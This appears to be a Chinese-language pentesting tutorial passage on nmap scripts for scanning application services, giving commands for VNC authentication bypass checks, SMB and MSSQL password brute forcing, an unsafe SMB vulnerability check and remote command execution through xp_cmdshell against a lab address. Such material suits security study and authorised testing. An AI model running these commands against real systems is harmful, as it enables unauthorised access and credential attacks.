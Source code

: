 按照应用服务扫描
--------

nmap脚本的完整文档可以看官方文档 [https://nmap.org/nsedoc/scripts/](https://nmap.org/nsedoc/scripts/)

下面是常用的一些应用扫描

### VNC扫描

VNC (Virtual Network Console)是[虚拟网络](https://baike.baidu.com/item/%E8%99%9A%E6%8B%9F%E7%BD%91%E7%BB%9C)控制台的缩写。它 是一款优秀的[远程控制](https://baike.baidu.com/item/%E8%BF%9C%E7%A8%8B%E6%8E%A7%E5%88%B6/934368)工具软件

*   检查vnc bypass

    nmap  --script=realvnc-auth-bypass 192.168.137.4
    

*   检查vnc认证方式

    nmap  --script=vnc-auth  192.168.137.4  
    

*   获取vnc信息

    nmap  --script=vnc-info  192.168.137.4  
    

### smb扫描

SMB(全称是Server Message Block)是一个网络[协议](https://baike.baidu.com/item/%E5%8D%8F%E8%AE%AE/13020269)名，它能被用于[Web](https://baike.baidu.com/item/Web/150564)连接和[客户端](https://baike.baidu.com/item/%E5%AE%A2%E6%88%B7%E7%AB%AF/101081)与服务器之间的[信息沟通](https://baike.baidu.com/item/%E4%BF%A1%E6%81%AF%E6%B2%9F%E9%80%9A/1053012)

*   smb破解

    nmap  --script=smb-brute.nse 192.168.137.4  
    

*   smb字典破解

    nmap --script=smb-brute.nse --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.137.4
    

*   smb漏洞检测

    nmap  --script=smb-check-vulns.nse --script-args=unsafe=1 192.168.137.4
    

### Mssql扫描

*   暴力破解用户名密码

    nmap -p1433 --script=ms-sql-brute --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.137.4 
    

*   有密码后`xp_cmdshell`执行命令

    nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.137.4  
    
